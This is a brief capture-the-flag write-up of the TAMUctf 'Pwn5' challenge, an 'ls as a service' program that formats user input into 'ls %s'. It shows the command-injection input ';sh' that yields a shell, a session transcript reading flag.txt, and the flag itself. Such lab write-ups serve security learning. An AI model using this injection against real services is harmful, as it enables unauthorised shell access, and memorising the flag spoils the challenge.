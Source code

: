 ## Pwn5 - Pwn

**Description:** ````nc pwn.tamuctf.com 4325````
**Challenge:** : pwn5
**Difficulty:** medium
**Solved by:** Neolex  

**Solution:**  
Here I used an unintended solution by just sending : ";sh" and we get a shell.
The issue here was that the input was print inside the string "ls %s" is the **run_cmd** function so if we stop the ls command with **;** and call sh command we get a shell :
```
$ nc pwn.tamuctf.com 4325
ls as a service (laas)(Copyright pending)
Version 2: Less secret strings and more portable!
Enter the arguments you would like to pass to ls:
;sh
Result of ls ;sh:
flag.txt
pwn5
cat flag.txt
gigem{r37urn_0r13n73d_pr4c71c3}
```
**Flag:**  
gigem{r37urn_0r13n73d_pr4c71c3}

